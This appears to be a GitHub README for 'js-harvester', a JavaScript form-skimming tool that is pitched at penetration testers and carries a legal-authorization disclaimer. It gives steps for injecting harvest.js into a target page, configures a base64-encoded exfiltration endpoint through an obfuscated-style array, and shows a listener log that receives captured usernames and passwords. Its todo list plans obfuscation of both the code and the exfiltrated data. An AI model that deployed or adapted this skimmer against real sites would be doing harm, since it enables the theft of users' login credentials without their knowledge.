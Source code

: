 # js-harvester
This is a tool for pen testers to use in an engagement where data must be captured from a web form.
> [!CAUTION]
> Disclaimer: Intended only for use on systems that you are legally authorized to access.
# installation
* Requires jQuery
* Ability to inject harvest.js to the target site
# usage
1. Identify target page to harvest data from (see example-forms for reference/test materials)
3. Add harvest.js to the target page
```
<script type="text/javascript" src="harvest.js"></script>
```
4. Run a HTTP or HTTPS service to receive data from the script
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```
6. Update the settings in harvest.js
```
//var siteId = "updateme";
//var formId = "updateme";
var bindAllFormsSwitch = true;
var formName = "loginform2";
var enableEncoding = true;
var usePost = false;
var _0x3745 = ["http","://","127.0.0.1","/harvest.php","Content-type","application/x-www-form-urlencoded","GET","POST","HEAD","PUT","DELETE","OPTIONS","PATCH"];
```
* <b>siteId and formId:</b> The siteId and formId values were originally hardcoded. These values are now dynamically generated based on the form properties (host, page, form name)
* <b>bindAllFormsSwitch:</b> boolean value 'true' or 'false'. true will bind all forms on the page, false will bind the form name specified by 'formName'
* <b>formName:</b> required if not binding all forms on the page (see bindAllFormsSwitch)
* <b>enableEncoding:</b> enables base64 encoding of exfiltrated data, may expand to other encoding types/formats
* <b>usePost:</b> boolean value 'true' or 'false'. indicates whether a POST request should be used for data exfiltration, default is to use GET
* <b>_0x3745:</b> array of values used for data exfiltration, the first 4 need to be customized for the data exfiltration endpoint

5. Listen. . .
```
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
192.168.1.211 - - [14/Sep/2024 18:39:22] "GET /harvest?data=dXNlcm5hbWU6cGV0ZXImcGFzc3dvcmQ6d2VpbmVyJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:27] "GET /harvest?data=dXNlcm5hbWU6YWRtaW4mcGFzc3dvcmQ6YWRtaW4mc2l0ZUlkOk1Ua3lMakUyT0M0eExqSXpOdz09JmZvcm1JZDpMMnB6YUdGeWRtVnpkQzlzYjJkcGJpMW1iM0p0TG1oMGJXd3RiRzluYVc1bWIzSnQ= HTTP/1.1" 200 -
192.168.1.211 - - [14/Sep/2024 18:39:33] "GET /harvest?data=dXNlcm5hbWU6Z2VvcmdlJnBhc3N3b3JkOmJ1cm5zJnNpdGVJZDpNVGt5TGpFMk9DNHhMakl6Tnc9PSZmb3JtSWQ6TDJwemFHRnlkbVZ6ZEM5c2IyZHBiaTFtYjNKdExtaDBiV3d0Ykc5bmFXNW1iM0p0 HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
                                                                                                                                                                                                                                       
┌──(kali㉿hammer)-[~/tools/js-harvester/server]
└─$ 
```

# todo list
* ~~dynamic form binding and processing~~
* ~~support for exfiltration through configurable HTTP methods~~
* ~~use hash values to identify site and form IDs~~
* ~~ability to bind multiple forms dynamically~~
* code obfuscation
* obfuscation for data exfiltration
* remove jQuery dependencies
